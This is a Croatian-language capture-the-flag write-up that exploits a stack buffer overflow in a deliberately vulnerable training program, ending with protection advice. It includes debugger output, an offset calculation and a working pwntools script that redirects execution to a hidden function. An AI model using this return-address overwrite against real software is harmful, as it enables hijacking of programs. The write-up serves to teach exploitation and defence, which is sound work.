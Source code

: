 # Writeup

## Otkrivanje ranjivosti
Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **stack buffer overflow** kod promijene zone.

```c
void promijeniZonu(){
	char priv[4];
	printf("Unesi novu zonu (3 znaka):\n");
	fgets(priv,44,stdin);
	strcpy(trenutnaZona,priv);
	printf("Zona promijenjena!\n");
}
```

U programu se za unos nove zone rezervira polje veličine 4 bajta, a pomoću funkcije fgets se na rezervirano polje zapisuje maksimalno 44 bajta.

Pomoću programa ```checksec``` mogu se provjeriti zaštite kompajliranog programa.

```
└─$ checksec --file=poruka    
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   2258 Symbols      No    0               0               poruka
```

Iz rezultata postojećih zaštita se može vidjeti da kompajlirani program ne sadrži PIE zaštitu.

## Objašnjenje ranjivosti

Kad je PIE omogućen, sustav koristi tehnologiju poput ASLR (engl. _Address Space Layout Randomization_) za nasumično raspoređivanje adresa programa (npr. adrese funkcija, varijabla, stog...).
Na taj način, čak i ako napadač uspije izvršiti napade, neće moći predvidjeti gdje će se funkcije ili kritični podaci nalaziti u memoriji.
Zbog toga što program ne sadrži PIE, može se preurediti povratna adresa funkcije promijeniZonu na bilo koji drugu adresu.
To je moguće zbog toga što program pomoću fgets upisuje podatke izvan buffera.
U ovom slučaju želimo program preusmjeriti na adresu funkcije ispisiTajnuPoruku.
Potrebno je odrediti koji dio korisničkog unosa preuređuje povratnu adresu funkcije.
Za to se može koristiti program ```gdb``` u kombinaciji s ```pwndbg```.

Prvo treba pogledati na kojoj adresi se nalazi buffer:

```
─────────[ DISASM / x86-64 / set emulate on ]────────── 
 ► 0x401a2a <promijeniZonu+42> call fgets <fgets>
        s: 0x7fffffffddac <-- 0xffffddd000000000
		n: 0x2c
        stream: 0x4c45c0 (_IO_2_1_stdin_) <-- 0xfbad2288
```

Adresa gdje se nalazi naš buffer je ```0x7fffffffddac```.
Broj bajtova koje zapisujemo je ```0x2c```  (decimalno je to 44).

Zatim treba pogledati gdje se na stogu nalazi povratna adresa funkcije promijeniZonu:
```
────────[ STACK ]─────────
00:0000│ rsp         0x7fffffffdda0 —▸ 0x7fffffffddb0 —▸ 0x7fffffffddd0 ◂— 1
01:0008│ rax-4 rdi-4 0x7fffffffdda8 —▸ 0x401d45 (ocistiUlazniBuffer+10) ◂— cmp eax, 0xa
02:0010│ rbp         0x7fffffffddb0 —▸ 0x7fffffffddd0 ◂— 1
03:0018│+008         0x7fffffffddb8 —▸ 0x402172 (main+302) ◂— jmp main+320
```

Povratna adresa funkcije se uvijek nalazi ispod rbp. U ovom slučaju, povratna adresa funkcije promijeniZonu se nalazi na ```0x7fffffffddb8```.

Da bi se izračunao potreban padding (udaljenost korisničkog unosa), potrebno je oduzeti adresu mjesta povratne adrese funkcije i adresu na kojoj se nalazi buffer.

```ddb8 - ddac = C = 12```

Izračunati padding je 12 bajtova. 
Sada je potrebno nakon 12 bajtova korisničkog unosa unijeti adresu funkcije ispisiTajnuPoruku.


## Iskorištenje ranjivosti


Za izradu rješenja može se napraviti Python skripta koja iskorištava stack buffer overflow ranjivost u zadatku.
Skripta koristi ```pwntools``` biblioteku za interakciju s kompajliranim programom, omogućujući slanje podataka i primanje odgovora od procesa pokrenutog programa. 
Nakon pokretanja programa, skripta odabire opciju promijene zone (3) i zatim za novu zonu unosi korisnički unos koji preusmjerava izvođenje programa na adresu funkcije ispisiTajnuPoruku.


```python
from pwn import *

io = process("./poruka")
elf = ELF("./poruka")

# = = = START

print(io.recvuntil(b"Odabir:"))
io.sendline(b"3")

print(io.recvuntil(b"Unesi novu zonu (3 znaka):"))

payload = b""
padding = b"A" * 12
ispisiTajnuPoruku = p64(elf.sym["ispisiTajnuPoruku"])
#elf.sym["naziv"] = funkcije i varijable se zovu simboli, to uzme adresu tog simbola kao
#p64() = pakiraj ova 64 bita u format koji će naš kompjuter moći pročitati (jer on koristi little endian)

payload += padding + ispisiTajnuPoruku

# = = = END
io.sendline(payload)
print(payload)

io.interactive()

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[TYP0_Ov3rFl0w]```

## Edukativne smjernice
- Stack buffer overflow je napad kod kojeg unos veći od rezerviranog memorijskog prostora (buffera) prepiše podatke na stogu (npr. povratnu adresu) i omogućuje napadaču da promijeni tok izvršavanja programa.
- Za zaštitu od ove ranjivosti preporučuje se:
   - Pažljivo provjeriti veličine buffera i memorije koja se u njih zapisuje
   - Provjeriti duljinu korisničkog unosa prije njegovog kopiranja u buffer
   - Uključiti stack canary (gcc ... -fstack-protector-strong) koji detektira prepisivanje stoga i tada prekida izvođenje programa.
   - Omogućiti NX (gcc ... -z noexec) kako bi spriječili izvršavanje koda na stogu.
   - Uključiti PIE/ASLR (gcc ... -fPIE -pie) za nasumično raspoređivanje adresa u memoriji.
